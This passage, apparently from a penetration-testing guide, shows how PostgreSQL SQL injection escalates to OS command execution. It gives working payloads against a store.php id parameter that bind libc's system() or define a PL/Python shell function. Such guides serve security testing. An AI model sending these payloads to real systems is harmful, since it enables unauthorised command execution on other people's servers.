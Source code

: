     :   *CREATE TABLE stdout(id serial, system\_out text)*

-   executing a shell command redirecting its *stdout*

    :   *SELECT system('uname -a &gt; /tmp/test')*

-   use a *COPY* statements to push output of previous command in *stdout* table

    :   *COPY stdout(system\_out) FROM '/tmp/test*'

-   retrieve output from *stdout*

    :   *SELECT system\_out FROM stdout*

*' Example:*'

` `\
`/store.php?id=1; CREATE TABLE stdout(id serial, system_out text) -- `\
``\
`/store.php?id=1; CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6','system' LANGUAGE 'C'`\
`STRICT --`\
``\
`/store.php?id=1; SELECT system('uname -a > /tmp/test') --`\
``\
`/store.php?id=1; COPY stdout(system_out) FROM '/tmp/test' --`\
``\
`/store.php?id=1 UNION ALL SELECT NULL,(SELECT system_out FROM stdout ORDER BY id DESC),NULL LIMIT 1 OFFSET 1--`\
``

##### plpython

PL/Python allows users to code PostgreSQL functions in python. It's untrusted so there is no way to restrict what user can do. It's not installed by default and can be enabled on a given database by *CREATELANG*

-   Check if PL/Python has been enabled on a database:

    :   ''SELECT count(\*) FROM pg\_language WHERE lanname='plpythonu'

-   If not, try to enable:

    :   *CREATE LANGUAGE plpythonu*

-   If either of the above succeeded, create a proxy shell function:

    :   *CREATE FUNCTION proxyshell(text) RETURNS text AS 'import os; return os.popen(args\[0\]).read() 'LANGUAGE plpythonu*

-   Have fun with:

    :   SELECT proxyshell(*os command*);

**Example:**

-   Create a proxy shell function:

    :   ''<nowiki>/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS ‘import os;

return os.popen(args\[0\]).read()’ LANGUAGE plpythonu;-- </nowiki>''
